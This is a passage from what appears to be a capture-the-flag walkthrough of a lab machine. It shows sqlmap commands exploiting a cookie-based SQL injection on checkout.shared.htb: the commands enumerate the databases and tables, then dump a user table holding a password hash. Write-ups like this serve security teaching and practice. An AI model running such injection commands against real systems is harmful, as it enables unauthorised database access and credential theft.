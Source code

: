 #### Database Enumeration

There are two databases (and `information_schema` is the MySQL default):

```

oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch --dbs
...[snip]...
[13:27:52] [INFO] fetching database names
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
available databases [2]:
[*] checkout
[*] information_schema
...[snip]...

```

`checkout` has two tables:

```

oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout --tables
...[snip]...
[13:28:36] [INFO] fetching tables for database: 'checkout'
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
Database: checkout
[2 tables]
+---------+
| user    |
| product |
+---------+
...[snip]...

```

I’ll dump both tables. The `product` table isn’t interesting, but the `user` table has a hash:

```

oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout -T user --dump
...[snip]...
Database: checkout
Table: user
[1 entry]
+----+----------------------------------+-------------+
| id | password                         | username    |
+----+----------------------------------+-------------+
| 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
+----+----------------------------------+-------------+
...[snip]...

```
